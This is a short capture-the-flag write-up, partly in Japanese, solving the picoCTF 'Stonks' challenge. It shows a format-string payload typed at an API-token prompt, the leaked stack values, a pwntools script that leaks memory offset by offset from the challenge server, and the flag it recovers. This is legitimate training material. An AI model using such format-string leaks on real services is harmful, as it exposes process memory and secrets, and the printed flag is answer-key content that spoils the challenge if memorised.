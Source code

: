 What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
AAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
Buying stonks with token:
AAAA0x9c62450.0x804b000.0x80489c3.0xf7fadd80.0xffffffff.0x1.0x9c60160.0xf7fbb110.0xf7faddc7.(nil).0x9c61180.0x1.0x9c62430.0x9c62450.0x6f636970.0x7b465443.0x306c5f49.0x345f7435.0x6d5f6c6c.0x306d5f79.0x5f79336e.0x34636462.0x61653532.0xffd5007d.0xf7fe8af8.0xf7fbb440.0x70bab900.0x1.(nil).0xf7e4abe9.0xf7fbc0c0.0xf7fad5c0.0xf7fad000.0xffd54508.0xf7e3b58d.0xf7fad5c0.0x8048eca
Portfolio as of Sun May 30 02:45:13 UTC 2021
</pre>

<br />

書いたコード：

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context.log_level = 'critical'

host, port = 'mercury.picoctf.net', 53437

for i in range(15,25):
    s = remote(host, port)
    s.recvuntil('2) View my portfolio')
    s.sendline('1')
    s.recvuntil('What is your API token?\n')
    s.sendline('%' + str(i) + '$p')
    s.recvuntil('Buying stonks with token:\n')
    response = s.recvline()
    try:
        if "0x" in response:
            r = response.rstrip() # To remove '\n'
            # print(r)
            sys.stdout.write(p32(int(r,16)))
    except:
        print("{}".format("error"))
        pass
    s.close()
print()
```

<br />
実行結果：

<pre>
$ ./stonks_solve.py
picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}\x00\xff()
</pre>
